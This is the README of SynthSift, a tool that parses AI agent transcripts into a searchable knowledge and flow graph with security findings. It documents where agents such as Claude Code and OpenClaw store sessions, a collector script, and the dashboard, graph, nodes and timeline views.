# SynthSift

**Turn LLM agent transcripts into an interactive knowledge + flow graph without using an LLM.**

SynthSift reads transcripts saved by agent harnesses, normalises them into one
model and runs classic NLP over every paragraph: spaCy NER and dependency
parsing, regular expressions, curated vocabularies and WordNet. It pulls out
people, places, files, IPs, hashes, ingredients, vehicles and so on, then draws
everything with networkx + vis-network (the engine behind pyvis). The graph
contains the conversation flow (user → LLM → tool call → result → …), every
tool call and its arguments, the agent's thoughts on a separate layer, and the
entities that tie conversations together. Clicking anything takes you to the
exact words in the transcript.

For security analysts it also flags **data leaving the host, downloads, exposed
secrets, sensitive-file access and destructive commands**, draws them as
`source → action → sink` chains (e.g. `/tmp/prod.sql.gz → s3://public-bucket`),
and lets you **tag and comment** on sessions, turns and terms. Three full-page
views sit next to the graph: a **Dashboard** with activity over time and the
long tail of rare terms, list hits and tools; **Nodes**, a sortable, filterable
table of every node; and **Timeline**, everything tagged plus the findings, row
by row.

Every enrichment step is a **module** that stores its results per paragraph in
its own table of a persistent **DuckDB** database: pattern extraction, spaCy,
**IOC and keyword lists** (millions of lines), text features, content-type
labels and the security findings. Modules run in parallel where they don't
depend on each other, only new paragraphs are processed, and changing a
module's options re-runs just that module and what depends on it. Writing a
new one is a single file (see [Writing an enrichment module](#writing-an-enrichment-module)).



<table>
<tr>
<td width="50%"><b>Tag and comment on anything</b>: right-click a turn, node, term or session<br></td>
<td width="50%"><b>Review it on the timeline</b>: tagged rows and findings, day by day<br></td>
</tr>
<tr>
<td><b>Filter the graph by tag</b>: everything else fades<br></td>
<td><b>Every node in a table</b>: sort, filter and bulk-tag<br></td>
</tr>
</table>

## Quick start

```bash
uv run synthsift --open                     # web UI on http://127.0.0.1:8765
uv run synthsift serve --load samples/synthsift-samples.zip --open
uv run synthsift build my-transcripts.zip -o graph.html   # standalone pyvis HTML, no server
python3 collector/synthsift_collect.py      # zip this machine's agent sessions (standalone, see collector/)
uv run synthsift harnesses                  # list transcript parsers
```

`uv run` creates the environment on first use, including the small English
spaCy model. Uploads, settings, IOC lists and the database
(`synthsift.duckdb`) are kept in `./.synthsift/` (`--data-dir` to change).
Restarting the app loads the stored corpus and module results instead of
recomputing them. While anything is processed, a loading screen shows each
stage and every module's progress (full screen until there is a graph, then a
card in the corner that you can minimise).

### Upload layout

Upload one or more `.zip` files (button, or drag & drop anywhere):

```
upload.zip
└── <host>/
    └── <user>/
        └── <harness>/                 claude_code | openclaw | example | gemini | antigravity | hermes
            ├── transcript1-xyz.json
            └── transcript2-abc.jsonl
```

Extra wrapper folders above `host/` are ignored, and sub-folders below the
harness folder become part of the session name. When the harness folder isn't
recognised, each implemented parser gets to *sniff* the file instead. One file
is one session and may hold several conversations. See
[Where to get transcripts](#where-to-get-transcripts) for each agent's files.

## Where to get transcripts

Each parser below says where its agent keeps session files, what to copy and
which folder to put them in inside the upload zip (`<host>/<user>/<folder>/…`).

| Agent | Zip folder | Parser | Default location |
|---|---|---|---|
| [Claude Code](#claude-code) | `claude_code` | ready | `~/.claude/projects/` |
| [OpenClaw](#openclaw) | `openclaw` | ready | `~/.openclaw/agents/` |
| [Generic chat logs](#generic-chat-logs-example) | `example` | ready | your own API / proxy logs |
| [Gemini CLI](#gemini-cli) | `gemini` | placeholder | `~/.gemini/tmp/<project_hash>/chats/` |
| [Google Antigravity](#google-antigravity) | `antigravity` | placeholder | not documented (see below) |
| [Hermes Agent](#hermes-agent) | `hermes` | placeholder | `~/.hermes/state.db` |

Files in a *placeholder* folder are accepted but skipped with a warning until
that parser is written (see [Adding a harness](#adding-a-harness)).

**The collector** ([`collector/`](collector/)) gathers every agent's files
from a machine into an upload-ready zip, together with a manifest of original
paths and SHA-256 hashes. It is a standalone, standard-library-only Python
script, so the folder can be copied to any machine without installing
SynthSift. It never modifies anything:

```bash
python3 collector/synthsift_collect.py -o laptop.zip             # your own sessions on this machine
sudo python3 collector/synthsift_collect.py --all-users -o ir.zip # every home directory (incident response)
python3 collector/synthsift_collect.py --since-days 7 --dry-run   # list what would be taken
python3 collector/synthsift_collect.py --target claude_code=/data/claude-logs   # transcripts kept somewhere else
```

What it looks for is listed per agent in plain text glob files,
[`collector/globs/<agent>.txt`](collector/globs/); edit them or add one to
cover another agent. See [collector/README.md](collector/README.md).

Copying files by hand works too. You can also zip an agent's hidden state
folder (`.claude/`, `.openclaw/`) as it is: it is recognised even without the
`host/user` folders, and the user is then taken from the session's working
directory.

### Claude Code

**Where**

| OS | Path |
|---|---|
| macOS / Linux | `~/.claude/projects/<project>/` |
| Windows | `%USERPROFILE%\.claude\projects\<project>\` |
| Custom | `$CLAUDE_CONFIG_DIR/projects/<project>/` when `CLAUDE_CONFIG_DIR` is set |

`<project>` is the working directory with `/` replaced by `-`, e.g.
`-home-alice-work-api`.

**What to copy**
- `<session-id>.jsonl`: one file per session.
- `<session-id>/subagents/agent-*.jsonl`: sub-agent runs, in newer versions.

Copy the whole `<project>` folder. The `tool-results/` folders hold large tool
outputs, which the transcript already quotes, and are not needed.

**Retention**
- Claude Code deletes local transcripts after **30 days** by default
  (`cleanupPeriodDays` in `settings.json`). Collect them before then, or raise
  the setting on machines you want to monitor.
- Sessions started or last continued in Claude Desktop / Cowork are kept
  longer by default.

**Zip path**: `<host>/<user>/claude_code/projects/<project>/<session-id>.jsonl`

**Glob list**: [`collector/globs/claude_code.txt`](collector/globs/claude_code.txt)

**What is read**
- Streamed response rows are merged into one message, and tool results are
  linked to their calls.
- Each sub-agent becomes its own conversation, whether it has its own file or
  is interleaved in the session file.
- `!` bash-mode commands the user ran become `user_shell` tool calls, so they
  are security-scanned.
- Slash commands and prompts queued while the agent was busy are kept.
- `<system-reminder>`, meta and compaction-summary rows become *system*
  messages.
- Title, working directory, git branch, CLI version and models become
  metadata.
- A file copied while Claude Code was writing it loses only its cut-off last
  line.

### OpenClaw

**Where** (the state directory)

| OS | Path |
|---|---|
| macOS / Linux | `~/.openclaw/`, or `~/.clawdbot/` / `~/.moltbot/` on installs from before the renames |
| Windows, native gateway | `%USERPROFILE%\.openclaw\` |
| Windows, WSL2 gateway | inside the WSL distro (`\\wsl$\<distro>\home\<user>\.openclaw\`); easiest to run the collector inside WSL |
| Custom | `$OPENCLAW_STATE_DIR` when set |

**What to copy**, per agent (`agents/<agentId>/`)

| File | What it holds |
|---|---|
| `agent/openclaw-agent.sqlite` (+ `-wal`) | Current releases: every session, plus archived copies of deleted and reset sessions |
| `sessions/<session-id>.jsonl` | Older, file-backed releases |
| `sessions/*.jsonl.deleted.<time>[.zst]`, `*.jsonl.reset.<time>[.zst]` | Transcripts of deleted and reset sessions |
| `sessions/cold/*.jsonl.zst` | Cold storage, if `session.maintenance.coldStorage` is on |

`sessions/sessions.json` is only an index; it may be included but isn't
needed.

**Copying a running gateway's database**
- Use the collector, which takes a consistent snapshot with SQLite's backup
  API.
- Or stop the gateway first.
- Or copy the `-wal` file next to the database, so recent writes aren't lost.

**Not on disk**: incognito threads (Control UI → New thread → Incognito) are
never written to disk and can't be recovered.

**Zip path**: `<host>/<user>/openclaw/agents/<agentId>/agent/openclaw-agent.sqlite` (and

**Glob list**: [`collector/globs/openclaw.txt`](collector/globs/openclaw.txt)
`…/sessions/…`)

**What is read**
- User, assistant (text, thinking, tool calls) and tool-result events.
- `bashExecution` entries become `user_shell` tool calls.
- Messages another agent session sent in are marked `inter_session`.
- Compaction, branch-summary and reset markers become *system* messages.
- Metadata: channel and chat type, session key, display name / label, models,
  and whether a session was **deleted** or **reset**.

### Generic chat logs (`example`)

This is not an agent. It is SynthSift's own reference format (see
[The example format](#the-example-format)) and a catch-all for chat logs you
produce yourself. It reads:
- a JSON file with a `messages` array, or a bare array of messages;
- JSONL with one message per line;
- messages in OpenAI chat-completions style (`tool_calls`,
  `reasoning_content`) or Anthropic Messages style (`tool_use` /
  `tool_result` blocks).

**Where**: from your own application's request logging or an LLM proxy, i.e.
the `messages` you send to the API plus the responses.

**Not supported**: account data exports (ChatGPT `conversations.json`,
Claude.ai exports) use different layouts and are not read.

**Zip folder**: `example`. The aliases `openai`, `chat` and `generic` work
too.

### Gemini CLI

*Parser not written yet.*

**Where**

| OS | Path |
|---|---|
| macOS / Linux | `~/.gemini/tmp/<project_hash>/chats/session-<time>-<id>.jsonl` (`.json` in older releases) |
| Windows | `C:\Users\<you>\.gemini\tmp\<project_hash>\chats\` |
| Custom | `$GEMINI_CLI_HOME/.gemini/…` when `GEMINI_CLI_HOME` is set |

Manually saved chats (`/resume save <tag>`) are kept in
`~/.gemini/tmp/<project_hash>/`.

**Retention**: sessions are deleted after **30 days** by default
(`general.sessionRetention.maxAge` in `settings.json`).

**Zip path**: `<host>/<user>/gemini/tmp/<project_hash>/chats/…`

**Glob list**: [`collector/globs/gemini.txt`](collector/globs/gemini.txt)

### Google Antigravity

*Parser not written yet.*

**Where**: Google does not document where the Antigravity IDE keeps its
conversations, so there is no confirmed path to collect yet. What is
documented:
- The Antigravity CLI keeps its configuration in `~/.gemini/antigravity-cli/`.
- For scripted runs, headless mode prints the whole run as NDJSON (`init`,
  `step_update` and `result` events), which is the most reliable capture today:

```bash
agy -p "…" --output-format stream-json > <host>/<user>/antigravity/run-001.jsonl
```

**Zip folder**: `antigravity`

**Glob list**: [`collector/globs/antigravity.txt`](collector/globs/antigravity.txt)

### Hermes Agent

*Parser not written yet.*

**Where**

| OS | Path |
|---|---|
| macOS / Linux / WSL2 | `~/.hermes/state.db` (plus `state.db-wal`) |
| Windows (native) | `%LOCALAPPDATA%\hermes\state.db` |
| Profiles | `~/.hermes/profiles/<name>/state.db` |
| Custom | `$HERMES_HOME/state.db` when `HERMES_HOME` is set |

`state.db` is a SQLite database that holds every session with its source
(CLI, Telegram, Discord…). When the database had to be replaced, pending
messages are also appended to `sessions/<session-id>.jsonl`.

**Zip path**: `<host>/<user>/hermes/state.db`

**Glob list**: [`collector/globs/hermes.txt`](collector/globs/hermes.txt)

## Using the UI

The top bar switches between four pages: **Dashboard**, **Graph**, **Nodes** and
**Timeline**. They share the host / user / agent / conversation filters, the
**time window**, the tag filter, *Hide ignored*, and all tags and comments. A
change on one page shows up at once on the others, including in other tabs.

The time window (*From* / *To* in the side rail, or the clock chip on the graph
page) limits every page to the turns inside it: the graph keeps the turns and
the terms mentioned in them, the Nodes table counts mentions inside it, and the
Timeline and Security lists keep what happened in it. The pages also take the
window and filters as URL parameters, which is how the dashboard's links work:
`/?from=…&to=…&select=<node>`, `/nodes?kinds=tool_call&q=…&lists=*`,
`/timeline?kinds=finding&cats=ioc,keyword`. Times are ISO 8601; `to` is
exclusive.

### Dashboard (`/dashboard`)

The corpus at a glance, for the scope and time window you have set.

- **Key figures**: conversations (with host, user and agent counts), events,
  tool calls, sub-agent calls, IOC hits, keyword hits, findings, terms and
  concepts, and how many terms and concepts were seen only once.
- **Over time**: one column chart per measure on a shared time axis. The
  measures are all events; IOC & keyword hits (IOC lists, keyword lists and the
  watchlist); tool calls; and sub-agent calls (tool calls that start a
  sub-agent: Claude Code's `Task` / `Agent`, OpenClaw's `sessions_spawn`).
  - Pick the **time slice**, from one minute to 30 days. *Auto* aims for about
    60 bars.
  - Presets cover the last day, 7 days or 30 days of the data.
  - A **log scale** keeps quiet slices visible next to a busy one.
  - Hovering shows every measure for that slice, and *Show as table* lists them.
- **Long tail**: the **rarest** terms, concepts, IOC & keyword hits and tools
  first, since the unusual tends to hide at the bottom. Switch to *Most
  common* for the top of the list. Each row shows its count, conversations,
  first sighting and a strip of when it occurs, and the top search filters the
  lists.
- **Everything is a link**, and each opens its view with the filter applied:
  - A bar opens that slice: events in the graph, list hits on the Timeline, tool
    and sub-agent calls on the Nodes page. A segment of a stacked bar opens just
    that kind.
  - A term or concept is selected in the graph, with a shortcut to its row on
    the Nodes page.
  - A list hit opens its findings on the Timeline, and a tool opens its calls on
    the Nodes page.
  - Each key figure opens the matching list.
- **Drag across the charts** to narrow the time window. It then applies on every
  page, and the dashboard zooms in with finer slices.

<table>
<tr>
<td width="50%"><b>Activity over time</b>: log scale, hover readout<br></td>
<td width="50%"><b>The long tail</b>: rarest terms, concepts, list hits and tools<br></td>
</tr>
</table>

### Graph

| Where | What it does |
|---|---|
| **Graph** | Click a node to list every paragraph it appears in (or jump straight to it if there's only one). Hovering a node shows the paragraph with the word highlighted. Double-click zooms. |
| **Top search** | Searches words across all visible transcripts (plain text or `/regex/i`). Matching nodes get a halo, everything else fades, and the Matches tab lists the hits. Press <kbd>Enter</kbd> to zoom to them and <kbd>/</kbd> to focus the search box. |
| **Conversations panel** | **Host / user / agent filters** narrow the whole workspace (graph, transcript, findings, and the Nodes and Timeline pages). Below them, a tree of host › user › harness › conversation: checkboxes toggle visibility per conversation or per group. Its own search box counts matching paragraphs per conversation; the filter button shows only those conversations. Clicking a conversation opens its transcript and fits the graph to it. |
| **Conversation chips** | Under the conversation picker: host, user, agent, model, file, plus the channel, session key, working directory, git branch, sub-agent and deleted/reset state when the agent recorded them. |
| **Transcript / Matches** | Shows the full conversation (user bubbles, italic dashed thoughts, tool-call cards with arguments, collapsible results) or the matching paragraphs. **# before / # after** set how many paragraphs of context surround each match. Underlined words are extracted entities; clicking one selects its node. |
| **Security tab** | Findings grouped by severity and category, each with its `source → action → sink` chain and where it happened. Click one to jump to the turn. **Flagged** (graph toolbar) fades everything without a finding; flagged nodes carry a severity ring and dataflow edges are drawn bold. |
| **Tagging** | See [Tagging and comments](#tagging-and-comments) below. |
| **Docking** | The panel docks right, left or bottom, or opens in its own window (the two windows stay in sync). |
| **Clustering** | *Cluster* in the graph toolbar collapses the graph into one node per **conversation, host, user or agent**; *auto* picks the first level with 2–40 groups once more than ~400 nodes are visible. Terms seen in more than one group stay outside the clusters, so you see what links sessions, hosts or users. **Click a cluster** to filter the workspace to it and expand it (in *auto* the next level then clusters, giving a drill-down); double-click expands it in place. Clusters show member count, highest finding severity and member tags. |
| **Layers chips** | Show or hide the *Thoughts*, *Dialogue*, *Actions* and *Entities* layers. |
| **Force / Layers** | *Force*: free physics. *Layers*: a swim-lane timeline with thoughts above the dialogue, tool calls and arguments below it, and entities at the bottom. Thoughts sit on their own band because they weren't acted on. |
| **Node types** | Legend and filter: click to toggle a type, shift-click to show only that type. |
| **Export** | Standalone **pyvis HTML** (works offline), **GraphML** (Gephi / yEd / Cytoscape) or a PNG of the current view. |
| **Open in Nodes** | The selection card's table button opens the selected node in the Nodes page. |
| **Settings** (⚙) | Knobs for extraction, text sources, custom vocabularies/patterns, graph content, edges, security analysis (including an analyst **watchlist** of your own patterns), physics, appearance, the transcript panel and every colour. Each setting shows whether changing it re-analyses the transcripts, rebuilds the graph, or applies instantly. |




